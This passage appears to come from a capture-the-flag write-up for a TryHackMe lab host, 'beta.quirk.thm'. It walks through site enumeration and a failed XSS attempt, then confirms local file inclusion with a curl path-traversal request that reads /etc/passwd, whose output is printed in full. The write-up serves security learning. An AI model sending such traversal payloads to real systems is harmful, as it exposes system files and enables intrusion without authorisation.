 Opening the newly discovered vhost in webbrowser, redirect us to another different page.

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/2.PNG)

Site have 4 pages
```
1: Home
2: work
3: about me
4: contact 
```

clicking work page also shows home page

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/3.PNG)

checking about me. We have another username here todoroki

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/4.PNG)

checking contact me shows this page have an email section trying xss paylods didn't work 

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/5.PNG)

When visiting work page it looks suspecious. It's shows home page also the url points to index.html local file

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/6.PNG)

So i changed the index.html to contact.html local file. luckily it shows contact.html

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/7.PNG)

Local file inclusion confirmed by /etc/passwd file.

```
curl http://beta.quirk.thm/works.php?url=../../../../etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```